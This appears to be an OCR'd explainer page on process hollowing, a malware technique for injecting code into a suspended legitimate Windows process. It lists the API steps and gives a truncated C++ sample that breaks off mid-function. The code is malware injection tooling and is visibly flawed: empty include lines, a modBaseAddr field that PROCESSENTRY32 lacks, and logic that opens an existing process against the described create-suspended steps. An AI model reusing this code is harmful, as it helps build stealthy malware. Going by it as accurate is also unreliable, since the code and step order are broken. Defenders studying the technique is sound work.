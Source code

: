 Process Hollowing  

Process hollowing is a technique malware uses to inject malicious code into a legitimate process running on a victim's computer. The malware creates a suspended process and replaces its memory space with its own code. The malware then resumes the process, causing it to execute the injected code. This technique allows the malware to bypass security measures that may be in place, as the malicious code is executed within the context of a legitimate process.

How Process Hollowing is Achieved  

Process hollowing involves several steps:

- Create a new process using the `CreateProcessA()` API. This process will act as a legitimate process and will be hollowed out.
- `NtSuspendProcess()` is then used to suspend the new process.
- Allocate memory in the suspended process using the `VirtualAllocEx()` API. This memory will be used to hold the malicious code.
- Write the malicious code to the allocated memory using the `WriteProcessMemory()` API.
- Modify the entry point of the process to point to the address of the malicious code using the `SetThreadContext()` and `GetThreadContext()` APIs.
- Resume the suspended process using the `NtResumeProcess()` API. This will cause the process to execute the malicious code.
- Clean up the process and any resources used during the process.

To have a better understanding of the technique we are covering, a sample C++ Code is added below:

```c
#include 
#include 
#include 
using namespace std;

bool HollowProcess(char *szSourceProcessName, char *szTargetProcessName)
{
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe;
    pe.dwSize = sizeof(PROCESSENTRY32);

    if (Process32First(hSnapshot, &pe))
    {
        do
        {
            if (_stricmp((const char*)pe.szExeFile, szTargetProcessName) == 0)
            {
                HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pe.th32ProcessID);
                if (hProcess == NULL)
                {
                    return false;
                }

                IMAGE_DOS_HEADER idh;
                IMAGE_NT_HEADERS inth;
                IMAGE_SECTION_HEADER ish;

                DWORD dwRead = 0;

                ReadProcessMemory(hProcess, (LPVOID)pe.modBaseAddr, &idh, sizeof(idh), &dwRead);
                ReadProcessMemory(hProcess, (LPVOID)(pe.modBaseAddr + idh.e_lfanew), &inth, sizeof(inth), &dwRead);

                LPVOID lpBaseAddress = VirtualAllocEx(hProcess, NULL, inth.OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

                if (lpBaseAddress == NULL)
                {
                    return false;
```